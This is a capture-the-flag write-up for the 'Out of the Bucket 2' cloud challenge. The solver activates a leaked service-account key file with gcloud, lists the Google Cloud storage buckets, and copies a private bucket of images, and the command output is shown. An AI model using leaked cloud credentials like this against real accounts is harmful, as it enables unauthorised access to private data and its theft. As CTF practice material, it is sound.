


# misc/Out of the Bucket 2
`Points: 407`

### Description
```
This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!

Author: windex
```

## Solve



Before, we saw the `secret/funny.json`. Then, do like this!

```shell
~ % gcloud auth activate-service-account --key-file=funny.json
Activated service account credentials for: [image-server@out-of-the-bucket.iam.gserviceaccount.com]

~ % gcloud storage buckets list
---
creation_time: 2023-12-29T16:56:35+0000
default_storage_class: STANDARD
location: US
location_type: multi-region
metageneration: 2
name: flag-images
public_access_prevention: enforced
rpo: DEFAULT
storage_url: gs://flag-images/
uniform_bucket_level_access: true
update_time: 2023-12-29T17:04:30+0000
---
creation_time: 2023-12-29T15:47:39+0000
default_storage_class: STANDARD
location: US
location_type: multi-region
metageneration: 2
name: out-of-the-bucket
public_access_prevention: inherited
rpo: DEFAULT
storage_url: gs://out-of-the-bucket/
uniform_bucket_level_access: true
update_time: 2023-12-29T16:33:52+0000

~ % gsutil cp -r gs://flag-images .
Copying gs://flag-images/256x192/ad.png...
Copying gs://flag-images/256x192/ae.png...                      
Copying gs://flag-images/256x192/af.png... 
...
\ [255 files][  1.4 MiB/  1.4 MiB]    7.1 KiB/s 
Operation completed over 255 objects/1.4 MiB.
```

We'll find the picture that is different from the others.



Gotcha~~~